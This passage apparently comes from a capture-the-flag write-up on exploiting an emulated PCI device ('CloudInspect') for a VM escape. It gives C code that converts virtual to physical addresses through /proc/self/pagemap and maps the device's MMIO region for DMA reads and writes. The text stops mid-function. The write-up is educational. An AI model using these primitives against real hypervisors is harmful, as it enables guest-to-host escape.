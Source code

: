 What we need to interact with the device is to get the physical address of a memory area we control, which would act like a shared buffer between our program and the PCI device. To do so we can `mmap` a few pages, `malloc` a buffer or just allocate onto the function's stackframe a large buffer. Given that I was following the thedangokyo's write up, I just retrieved a few functions he was using and especially for the shared buffer.

The function used to get the physical address corresponding to an arbitrary pointer is based on the `/proc/self/pagemap` pseudo-file, for which you can read the format [here](https://www.kernel.org/doc/Documentation/vm/pagemap.txt). The virt2phys function looks like this:
```c
uint64_t virt2phys(void* p)
{
		uint64_t virt = (uint64_t)p;
		assert((virt & 0xfff) == 0);
		int fd = open("/proc/self/pagemap", O_RDONLY);
		if (fd == -1)
				perror("open");
		uint64_t offset = (virt / 0x1000) * 8;
		// the pagemap associates each mapped page of the virtual address space 
		// with its PTE entry, the entry corresponding to the page is at address / PAGE_SZ
		// and because that's an array of 64 bits entry, to access the right entry, the
		// offset is multiplied per 8. 
		lseek(fd, offset, SEEK_SET);
		uint64_t phys;
		if (read(fd, &phys, 8 ) != 8)
				perror("read");
		assert(phys & (1ULL << 63));
		// asserts the bit IS_PRESENT is set
		phys = (phys & ((1ULL << 54) - 1)) * 0x1000;
		// flips out the status bits, and shifts the physical frame address to 64 bits
		return phys;
```
To interact with the device we can write the code right bellow:
```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdbool.h>

unsigned char* iomem;
unsigned char* dmabuf;
uint64_t dmabuf_phys_addr;
int fd;

#define PATH "/sys/devices/pci0000:00/0000:00:02.0/resource0"

void iowrite(uint64_t addr, uint64_t value)
{
		*((uint64_t*)(iomem + addr)) = value;
}

uint64_t ioread(uint64_t addr)
{
		return *((uint64_t*)(iomem + addr));
}

uint64_t write_dmabuf(uint64_t offt, uint64_t value) {
		*(uint64_t* )dmabuf = value;
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
```
